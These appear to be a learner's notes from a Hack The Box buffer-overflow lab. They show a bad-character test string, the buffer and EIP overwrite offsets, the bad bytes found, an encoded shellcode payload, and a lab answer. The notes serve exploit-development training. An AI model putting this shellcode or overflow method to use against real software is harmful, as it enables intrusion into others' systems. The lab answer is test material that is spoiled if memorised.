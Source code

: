 ```shell-session
gdxqpardo@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
^^^ Chars to avoid when generating shellcode.

#### Calculate CHARS Length

  Calculate CHARS Length

```shell-session
gdxqpardo@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w
```
This string is `256` bytes long. So we need to calculate our buffer again.

#### Notes

  Notes

```shell-session
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```
```shell-session
"\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

\x00\x09\x0a\x20

"\xdb\xca\xd9\x74\x24\xf4\xbb\x82\xfc\x62\x5f\x5f\x29\xc9\xb1\x12\x31\x5f\x17\x03\x5f\x17\x83\x45\xf8\x80\xaa\x78\xda\xb2\xb6\x29\x9f\x6f\x53\xcf\x96\x71\x13\xa9\x65\xf1\xc7\x6c\xc6\xcd\x2a\x0e\x6f\x4b\x4c\x66\x7a\xa1\xa1\x75\x12\xb7\xbd\x62\xdb\x3e\x5c\x24\x7d\x11\xce\x17\x31\x92\x79\x76\xf8\x15\x2b\x10\x6d\x39\xbf\x88\x19\x6a\x10\x2a\xb3\xfd\x8d\xf8\x10\x77\xb0\x4c\x9d\x4a\xb3"

**Submit the size of the stack space after overwriting the EIP as the answer**
`(gdb)$ info proc all`
0x21000
